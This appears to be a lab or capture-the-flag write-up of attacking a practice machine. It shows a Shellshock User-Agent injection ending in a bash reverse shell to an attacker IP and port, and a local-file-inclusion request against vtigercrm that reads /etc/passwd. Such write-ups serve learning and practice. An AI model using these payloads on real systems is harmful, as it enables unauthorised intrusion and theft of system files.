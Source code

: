 
Lets inject a sleep command of 10 seconds in the User-Agent Header
![[Pasted image 20240711202137.png]]
![[Pasted image 20240711202159.png]]

Now try 1 second to confirm execution
![[Pasted image 20240711202232.png]]
![[Pasted image 20240711202244.png]]



Try a reverse shell:
Mitre
#TTP 
`T1190 Initail Access: Exploit Public Facing Application`
```
() { :;};bash -c 'bash -i >& /dev/tcp/10.10.16.2/9001 0>&1';
```
![[Pasted image 20240711202534.png]]
![[Pasted image 20240711202550.png]]

***
**SMTP**

Think misconfigurations over exploitation
![[Pasted image 20240711211843.png]]

Lets try to manual connect using `nc`
```
nc [target] [port]
```
![[Pasted image 20240711212143.png]]

Trying to verify a user account leads to a message
![[Pasted image 20240711212253.png]]


So we need valid accounts. 
We can take modify previous LFI exploit and enumerate the `/etc/passwd` file for clues
```
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action'
```
![[Pasted image 20240711212702.png]]


But to be more precise, we want all users that allow for a shell - `/bin/bash`
Use `grep` and look for all entries ending `/bin/bash$`
```
curl -ks 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' | grep '/bin/bash$'
```
![[Pasted image 20240711212900.png]]
![[Pasted image 20240711213354.png]]
